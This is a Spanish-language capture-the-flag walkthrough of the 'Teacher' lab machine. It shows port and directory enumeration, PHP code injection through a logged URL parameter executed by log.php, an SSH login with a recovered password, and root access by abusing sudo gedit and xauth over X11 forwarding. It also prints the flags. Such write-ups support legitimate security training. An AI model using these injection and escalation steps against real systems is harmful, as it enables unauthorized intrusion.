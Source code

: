 ```php 
##########################################################################################################
#
# CTF a la Máquina Teacher
#
# DATE: 7/Septiembre/2022
#
# Buscar usuario  [ 9cd1f0b79d9474714c5a29214ec839a6 ] y root [ HappyBack2Sch00l ]
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.5
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.69
```
# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T4 -n -p- 192.168.0.69
```
* Obtengo los siguientes puertos abiertos, 21 FTP, 22 SSH y 80 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1e:21:69:d3:57:da:3a:04:0b:6f:f4:50:fb:97:13:10 (RSA)
|   256 36:ee:7f:57:1d:a5:b5:ce:1f:41:ba:b0:43:32:2e:ff (ECDSA)
|_  256 f2:bd:80:dd:e5:05:02:49:c3:3b:9f:83:29:cb:54:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

* Cargo la web y muestra el siguiente mensaje

```php
Hi student, make this server secure please.

Our first server got hacked by cool and avijneyam in the first hour, 
that server was just a test but this server is important becouse this will be used for teaching, 
if we get hacked you are getting an F
``` 
* El código fuente de la página tiene el siguiente comentario

```php 
<!-- Yes mrteacher I will do it -->
``` 
> Puede ser **mrteacher** un nombre de usuario ?

* Búsqueda de ficheros y directorios

```php 
feroxbuster -s 200 -u http://192.168.0.69 -d 2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php,jpg,png
```

* Resultado:

```php 
200        5l       57w      315c http://192.168.0.69/index.html
200   124725l     5579w        0c http://192.168.0.69/log.php
200        1l        2w       12c http://192.168.0.69/access.php
200       14l       28w      676c http://192.168.0.69/manual/index.html
200      755l     2925w   130469c http://192.168.0.69/rabbit.jpg
200        0l        0w        0c http://192.168.0.69/clearlogs.php
``` 

* El stego, **stegseeker**, del *rabbit.jpg* me dice que es un rabbit hole

```php 
cat rabbit.jpg.out 
RabbitHole lol
```
* Fuzzeo el access para intentar sacar el parámetro

```php 
wfuzz -u http://192.168.0.69/access.php?FUZZ=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --hh 0 --filter "l>0"
```


* Intento *cosas* con el script **access.php**, como por ejemplo

```php
http://192.168.0.69/access.php?id=1
```
Y observo, con el inspector de firefox, que lo que ponga ahí me lo mete en una etiqueta de image html, que no carga nada porque no existe un fichero de imagen que se llame *1*. Pero si pongo:

```php 
http://192.168.0.69/access.php?id=rabbit.jpg
```
Carga la imagen del conejo de antes

```php 
<img src='rabbit.jpg'>
```

Pero eso no me lleva a ningún sitio

* Pruebo metiendo un script de php 

```php 
http://192.168.0.69/access.php?id=<?php echo exec('id'); ?>
```

Pero nada 👎 en access.php, 

![67-1.png](./67-1.png)

* sin embargo si cargo en ese momento **log.php** 

![67-2.png](./67-2.png)

> Me ha resultado útil en ocasiones, resetear el log, con el fichero **clearlogs.php**
> 
> Thanks to @WWFYMN for this


* Si pruebo un *ls -l /home/* obtengo

```php 
your logs: drwxr-xr-x 5 mrteacher mrteacher 4096 Sep 5 17:55 mrteacher
```
> Así que ya tengo un nombre de usuario 

# Acceso

* Si ejecuto un ls,
```php 
http://192.168.0.69/access.php?id=%3C?php%20echo%20shell_exec(%27ls%20-l%27);%20?%3E
```

obtengo,

```php 
your logs:

total 5324
-rw-r--r-- 1 root      root          191 Aug 25 16:53 access.php
-rw-r--r-- 1 root      root           48 Aug 26 19:39 clearlogs.php
-rw-r--r-- 1 mrteacher mrteacher 5301604 Aug 25 17:38 e14e1598b4271d8449e7fcda302b7975.pdf
-rw-r--r-- 1 root      root          315 Aug 26 16:51 index.html
-rwxrwxrwx 1 root      root           47 Sep 29 23:08 log.php
-rw-r--r-- 1 root      root       130469 Aug 26 16:39 rabbit.jpg
```
Y leyendo el pdf obtengo una contraseña

![67-3](./67-3.png)

* Accedo por ssh

```php 
ssh mrteacher@192.168.0.69
pass: ThankYouTeachers
```

* Capturo la bandera de usuario

```console
9cd1f0b79d9474714c5a29214ec839a6
```

# Acceso a Root

* Ejecuto un **sudo -l** y obtengo

```php 
User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth
```
* La idea será ejecutar el editor *gedit* como root haciendo *X11 Forwarding* mediante una conexión *SSH*

1. Comprobar si está habilitado el servicio de X11 Forwarding

```php 
grep -i forward /etc/ssh/sshd_config

X11Forwarding yes
```
2. Establecer una conexión SSH habilitando el reenvio a X111

```php
ssh -X mrteacher@192.168.0.69
```
> Comprobamos que funciona el reenvío ejecutando **gedit** como el usuario *mrteacher*, debe funcionar

![67-4](./67-4.png)

Sin embargo si intentamos ejecutar *gedit* como otro usuario, root en nuestro caso, no va a funcionar porque el fichero **Xauthority** de *root* no sabe nada sobre la **magic cookie** que se ha pasado en la primera conexión *SSH*. Así que vamos a generarla para ese **display** y añadirla al fichero

3. Generamos la magic cookie

```php 
mrteacher@Teacher:~$ echo xauth add $(xauth list ${DISPLAY#localhost})

xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```

4. La añadimos al *Xauthority* de *root* 

```php 
sudo xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```
Comprobamos que se ha grabado:

```php 
mrteacher@Teacher:~$ sudo xauth list
Teacher/unix:10  MIT-MAGIC-COOKIE-1  859f3db444b1a77d9c0602bd4d804c25
```

5. Ejecutamos gedit como root, voy al directorio de root y obtengo bandera

![67-5](./67-5.png)

```console
HappyBack2Sch00l
```
